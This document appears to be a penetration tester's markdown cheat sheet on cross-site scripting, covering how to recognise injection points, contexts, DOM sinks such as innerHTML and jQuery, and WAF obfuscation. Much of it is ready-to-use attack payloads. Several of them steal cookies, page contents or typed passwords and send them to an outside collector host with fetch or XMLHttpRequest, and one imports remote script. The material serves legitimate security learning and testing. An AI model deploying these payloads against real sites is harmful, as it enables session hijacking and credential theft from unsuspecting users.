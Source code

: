 # References
- Michael Sommer videos
- [Nahamsec Video](https://www.youtube.com/watch?v=ej2O4lOUzRc)
- [z3nsh3ll Playlist](https://www.youtube.com/playlist?list=PLWvfB8dRFqbZG5cw2OrnEmzSzorxRuxFV)
- https://public-firing-range.appspot.com/
- [Portswigger XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

# Tools and Burp Extensions
- Web Developer Tools
- DOM Invader - Burp Suite Browser Extension

# What is it?
- When an attacker is able to inject javascript into a website
- Three types:
    - Reflected
    - Stored
    - DOM

# Recognition
- Remember that HTML parsing occurs before Javascript parsing
- Figure out where the input ends up. Is it a tag attribute, a script tag, etc?
- Are certain tags or attributes blocked? Use intruder and an XSS cheatsheet to find unblocked tags/attributes
- Is there any special handling for data? Do urls get turned into links?
- How are special characters handled? insert '<>:;"\/ to find out if they are being encoded.
```html
'"<a><<adsa>>\';//
```
- Introduce an event handler
```html
<u/onmouseover=alert(1)>test123
<img src=x onerror=alert(1)>
<!-- Other functions besides alert() can be used -->
Confirm
import('https://mysite.com/1.js')
print()
<!-- Example Below -->
<img src=x onerror=import('https://mysite.com/1.js')>
<!-- -->
```
- Every parameter in a url is a possible input field for XSS payloads
- Input a payload in the field and use `Control+F` to see if it reflects
- After that, use `Inspect` to check the DOM, also check the source code with the`view-source` functionality, or the HTTP response
- Determine the context where the input is seen 
- Figure out how to execute javascript within the context
- Determine what is getting encoded: ' " / \ < > ?
```html
test123;//
'"<a><<adsa>>\';//
</script>test123<img src=x onerror=alert(1)>
'; alert(1)//test123
%23f5f5f5</style>test123<script>alert(1)</script>
javascript:alert(document.cookie)
<iframe src="vulnerable-website#" onload="this.src+='<img src=1 onerror=print()>'" width="800" height="800"></iframe>
<iframe src="vulnerable-website" onload=this.style.width='100px'>
<img src=1 oNeRrOr=alert`1`>
"onmouseover="alert(1)
{{$on.constructor('alert(1)')()}}
&apos;-alert(1)-&apos;
${alert(1)}
'-alert-'
\'-alert(1)//
\"-alert(1)}//
'"><svg/onload=fetch(`//url/${encodeURIComponent(document.cookie)}`)>
```
- Check for other parameters in the source code to find more possible injection vectors
- Test all the fields that are presented within the webpage
- Check the element and see if it is being encoded `&quot;` as an HTML entity
- Try to `Edit as HTML` and see if the special characters got html encoded
- There might be controls put in place via the browser but not the API
- Some payloads might not be allowed via the UI but sending them via the HTTP request on burp suite bypasses these controls

# Some Exploit payloads
- Payload 1
```js
var xhr = new XMLHttpRequest();
xhr.onload=function(){
    const x = new XMLHttpRequest();
    x.open('GET', 'url=?'+btoa(this.responseText));
    x.send();
};
xhr.open('GET', 'URL');
xhr.send();
```
- Payload 2
```js
var xhr = new XMLHttpRequest();
xhr.open('GET', 'https://burp-collaborator/?'+btoa(document.cookie));
xhr.send();
```
- Payload 3
```html
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
- Payload 4
```html
<!--watch video "CSRF XSS payload example"-->
<script>
window.addEventListener('DOMContentLoaded', function(){
var token = document.getElementsByName('csrf')[0].value;
var data = new FormData();

data.append('csrf', token);
data.append('postId', 5);
data.append('comment', document.cookie);
data.append('name', 'victim');
data.append('email', 'someemail@email.net');
data.append('website','https://website.net');

fetch('/post/comment', {
    method: 'POST',
    mode: 'no-cors',
    body: data
});
});
</script>
```
- Payload 5
```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body: username.value+':'+this.value
});">
```
- Payload 6
```html
<script>
location = 'url-here';
</script>
```
- [CSRF XSS payload example](https://www.youtube.com/watch?v=N_87S9XVy0w)
- [Password Autofill-Payload example](https://www.youtube.com/watch?v=I6TOtXSOZ90)

# XSS Context
- Remember that HTML parsing occurs before Javascript parsing
- XSS in HTML tag attribute: Find a way to terminate the attribute and add a new one with an event handler that allows you to inject the payload
- href attribute - javascript:alert()
- XSS in Javascript template literals ``
```js
// Use the ${...} to insert the payload
${insert-payload-here}
```
- Try double curly brackets and see if it is evaluated `{{ 1 + 1 }}`
- Inside eval
- Are the angle brackets <> getting encoded/escaped? Is the encoding recursive or just the first instance? Try `<><img src=x onerror=alert()>`
- Hidden field or canonical link: Use accessKey event `accessKey="X" onclick="alert(1)"`[Portswigger Article](https://portswigger.net/research/xss-in-hidden-input-fields)
- Inside a quoted tag attribute Use HTML-encoding: After the HTML tags and attributes are parsed, the browser will perform HTML-decoding of the tag attribute values `&apos;-alert()-&apos;`

# Sinks
- innerHTML
    - On modern web browsers `script` elements inserted with innerHTML are sanitized
    - On modern web browsers `onload` events inside `svg` elements inserted with innerHTML are sanitized 
    - use `<img>` or `<iframe>` as viable options to inject a payload
    - [W3 HTML5 - innerHTML](https://www.w3.org/TR/2008/WD-html5-20080610/dom.html#innerhtml0)
    - [Developer Mozilla - innerHTML](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML)
- Sources and sinks in third-party dependencies
    - Each one has it quirks, investigate about them.
    - jQuery
        - attr(): this function changes the attributes of DOM elements. If the sink is an `href` attribute, then inject a malicious `javascript:payload-here`
        - $(): this function selector joined with the insecure usage of the `contains` method could be vulnerable due to malicious DOM element injection. Example involving `location.hash`, payload: `<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">`
    - AngularJS
        - ng-app: If this attribute is used on a HTML element AngularJS will execute javascript inside double curly braces `{{$on.constructor('alert(1)')()}}`
# Obfuscation
- Some payloads may need to be obfuscated to bypass WAF
```html
<img src=1 oNeRrOr=alert`1`>
```
